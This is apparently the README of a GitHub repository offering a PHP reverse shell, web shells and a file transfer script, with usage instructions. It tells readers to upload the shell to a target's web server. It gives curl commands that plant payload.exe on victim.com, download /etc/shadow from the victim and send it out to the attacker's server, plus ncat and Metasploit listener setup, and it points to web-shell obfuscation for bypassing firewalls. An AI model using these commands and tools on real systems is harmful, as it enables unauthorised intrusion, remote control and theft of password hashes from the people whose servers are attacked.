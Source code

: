 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## Table of Contents

* [Reverse Shells](#reverse-shells)
* [Web Shells](#web-shells)
* [File Upload/Download Script](#file-uploaddownload-script)
	* [Case 1: Upload the Script to the Victim’s Server](#case-1-upload-the-script-to-the-victims-server)
	* [Case 2: Upload the Script to Your Server](#case-2-upload-the-script-to-your-server)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## Reverse Shells

[/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is used.

[/src/reverse/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the scripts as necessary.**

Copy [/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## Web Shells

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

## File Upload/Download Script

Check the [simple PHP file upload/download script](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/web/files.php) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

Depending on the server configuration, downloading a file through HTTP GET parameter might not always work, so you will have to hardcore the file path in the script.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.php -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.php?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.php -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.php?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
